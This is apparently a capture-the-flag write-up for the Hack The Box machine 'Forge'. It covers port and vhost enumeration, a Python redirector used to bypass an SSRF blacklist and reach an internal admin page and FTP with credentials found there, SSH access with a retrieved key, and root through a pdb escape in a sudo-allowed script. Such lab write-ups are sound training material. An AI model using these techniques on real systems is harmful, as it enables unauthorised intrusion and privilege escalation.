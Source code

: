 
== Introduction ==

== Enumeration ==

=== Nmap ===

{{{class="nohighlight"
# Nmap 7.92 scan initiated Wed Jul 27 18:34:26 2022 as: nmap -sS -sCV -oA scans/nmap/init 10.10.11.111
Nmap scan report for 10.10.11.111
Host is up (0.025s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE    SERVICE VERSION
21/tcp filtered ftp
22/tcp open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4f:78:65:66:29:e4:87:6b:3c:cc:b4:3a:d2:57:20:ac (RSA)
|   256 79:df:3a:f1:fe:87:4a:57:b0:fd:4e:d0:54:c6:28:d9 (ECDSA)
|_  256 b0:58:11:40:6d:8c:bd:c5:72:aa:83:08:c5:51:fb:33 (ED25519)
80/tcp open     http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://forge.htb
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 27 18:34:35 2022 -- 1 IP address (1 host up) scanned in 9.23 seconds
}}}

- nmap does not follow redirect to http://forge.htb, add it to /etc/hosts and run gobster vhost
    - ftp is also filtered, yay

{{{class="nohighlight"
trent@kali[Forge]$ cat /etc/hosts
...
10.10.11.111    forge.htb admin.forge.htb
...
}}}

{{{class="nohighlight"
trent@kali[Forge]$ gobuster vhost -u http://forge.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -r
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://forge.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/07/27 18:49:01 Starting gobuster in VHOST enumeration mode
===============================================================
Found: admin.forge.htb (Status: 200) [Size: 27]

===============================================================
2022/07/27 18:49:25 Finished
===============================================================
}}}

{{local:../images/forge/website/admin/only_localhost_allowed.png|Admin interface only available on localhost}}

{{local:../images/forge/website/homepage.png|Homepage for http://forge.htb}}

- http://forge.htb/upload can be used to upload images by file or url
 
- uploading by url and making it callback to a netcat listener shows the request was made by
  python-requests/2.25.1, so the server is likely running some python web server

{{local:../images/forge/website/upload_from_url.png|Upload from url}}
{{local:../images/forge/website/python_requests_callback.png|python-requests version}}

- url uploads only accept http/https

[[local:../images/forge/website/forge_htb_blacklisted_url_uploads.png|Blacklist protocols]]

- Cant make requests to http://forge.htb or http://admin.forge.htb

[[local:../images/forge/website/forge_htb_blacklisted_url_uploads.png|Blacklisted urls]]

- we can get around the blacklist by redirecting to where we actually want to go. We then can
  navigate to the generated link on the website and we can view the raw page in burpsuite

{{{python
#!/usr/bin/env python3

# https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass#bypass-via-redirect
# python3 ./redirector.py 8000 http://127.0.0.1/

import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 2:
    print("Usage: {} <port_number> <url>".format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.send_response(302)
       self.send_header('Location', sys.argv[2])
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
}}}

- We cant see the site in the browser cause it tries to render the page as a jpg, but we can see the
  html in Burpsuite

{{local:../images/forge/website/admin/homepage_html_via_ssrf_redirect.png|Successful ssrf attack}}

- we have found some ftp creds, yay
    - user:heightofsecurity123!

{{local:../images/forge/website/admin/announcements.png|FTP credentials and internal /upload}}

- making a call to http://admin.forge.htb with the creds shows the ftp files, had to escape the ! in
  the password to make the script work
  
{{{class="nohighlight"
trent@kali[Forge]$ ./redirect.py "http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123%21@10.10.11.111"
10.10.11.111 - - [28/Jul/2022 17:14:08] "GET / HTTP/1.1" 302 -
}}} 

- running the same script to search for .ssh in ftp shows there is an id_rsa there. Score

{{local:../images/forge/ftp/ssh_folder.png|ftp ssh folder}}
{{local:../images/forge/ftp/id_rsa.png|ftp id_rsa}}

- we can then login as the "user" user with ssh

{{local:../images/forge/shell_as_user.png|Shell as user}}
{{local:../images/forge/user_get.png|User flag}}

- running linpeas shows "user" can run "/usr/bin/python3 /opt/remote-manage.py" without a password 

{{local:../images/forge/linpeas/sudo_l.png|linpeas sudo -l results}}

{{{python
# /opt/remote-manage.py

#!/usr/bin/env python3
import socket
import random
import subprocess
import pdb

port = random.randint(1025, 65535)

try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sock.bind(('127.0.0.1', port))
    sock.listen(1)
    print(f'Listening on localhost:{port}')
    (clientsock, addr) = sock.accept()
    clientsock.send(b'Enter the secret passsword: ')
    if clientsock.recv(1024).strip().decode() != 'secretadminpassword':
        clientsock.send(b'Wrong password!\n')
    else:
        clientsock.send(b'Welcome admin!\n')
        while True:
            clientsock.send(b'\nWhat do you wanna do: \n')
            clientsock.send(b'[1] View processes\n')
            clientsock.send(b'[2] View free memory\n')
            clientsock.send(b'[3] View listening sockets\n')
            clientsock.send(b'[4] Quit\n')
            option = int(clientsock.recv(1024).strip())
            if option == 1:
                clientsock.send(subprocess.getoutput('ps aux').encode())
            elif option == 2:
                clientsock.send(subprocess.getoutput('df').encode())
            elif option == 3:
                clientsock.send(subprocess.getoutput('ss -lnt').encode())
            elif option == 4:
                clientsock.send(b'Bye\n')
                break
except Exception as e:
    print(e)
    pdb.post_mortem(e.__traceback__)
finally:
    quit()
}}}

- script runs pdb when it hits an exception, which we can force by sending a lot of characters to
  the socket.
    - To do this, we need to open an ssh session that runs the script, and another that connects to
      it, since it only listens on localhost
    - then we can import os and execute code from there in pdb

{{local:../images/forge/shell_as_root.png|Shell as root}}
{{local:../images/forge/root_get.png|Root flag}}
